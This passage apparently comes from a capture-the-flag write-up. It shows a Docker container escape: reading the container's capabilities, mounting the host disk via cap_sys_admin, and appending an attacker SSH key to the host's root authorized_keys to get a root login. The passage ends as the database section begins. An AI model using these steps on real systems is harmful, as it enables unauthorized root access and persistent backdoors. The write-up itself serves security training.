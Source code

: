 Next, we inspected the container's effective capabilities:
Bash

    root@bb28d5969dd5:~# grep CapEff /proc/self/status
    CapEff: 000001ffffffffff

Decoding this hexadecimal value confirmed extensive capabilities:
Bash

    $ capsh --decode=000001ffffffffff
    0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore

The presence of cap_sys_admin was key, allowing us to mount the host's root filesystem directly as we had access to the host's block devices:
Bash

    root@bb28d5969dd5:~# mount /dev/nvme0n1p1 /mnt
    root@bb28d5969dd5:~# cat /mnt/etc/hostname
    ubuntu-jammy

To gain a shell on the host, we added our SSH public key to /mnt/root/.ssh/authorized_keys (which corresponds to /root/.ssh/authorized_keys on the host). First, we generated an SSH key pair on our attacking machine:
Bash

    $ ssh-keygen -f id_ed25519 -t ed25519
    # ... (output) ...
    $ cat id_ed25519.pub
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali

Then, we wrote the public key to the host's authorized_keys from within the container:
Bash

    root@bb28d5969dd5:~# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali' >> /mnt/root/.ssh/authorized_keys

Finally, we used the private key to SSH into the host as root and retrieved the user flag:
Bash

    $ ssh -i id_ed25519 root@10.10.131.204
    root@ubuntu-jammy:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@ubuntu-jammy:~# wc -c /root/user.txt
    38 /root/user.txt
    
    Root Flag
    MySQL Database

From the dbconfig.php file, we already knew that the database was running on another host (db). Checking the docker-compose.yml at /root/challenge/docker-compose.yml on the host revealed it was another container:
YAML
